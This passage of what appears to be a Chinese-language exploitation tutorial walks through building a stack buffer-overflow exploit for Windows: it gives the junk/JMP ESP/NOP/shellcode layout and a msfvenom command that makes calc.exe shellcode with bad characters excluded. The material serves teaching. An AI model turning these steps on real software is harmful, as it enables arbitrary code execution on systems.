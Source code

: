 29.  在结果框中，我们看到了我们的指令，并复制了我们的攻击地址。

![](img/976f95ba-72d9-4eff-b9be-673c1aeca92e.png)

30.  让我们现在写一个漏洞。基本概念为`junk bytes + address of jump ESP + NOP bytes + Shellcode`：

![](img/505d2867-3bd2-4f61-b10e-fa7058d6d247.png)

31.  我们可以生成计算器的外壳代码：

```
 msfvenom windows/exec CMD=calc.exe R | msfencode -b
        '\x00\x0A\x0D' -t c
```

32.  现在我们运行这个漏洞攻击，一旦程序崩溃，我们就会看到计算器打开！

![](img/f66e9a99-f581-456c-95d9-a005e49b0e74.png)
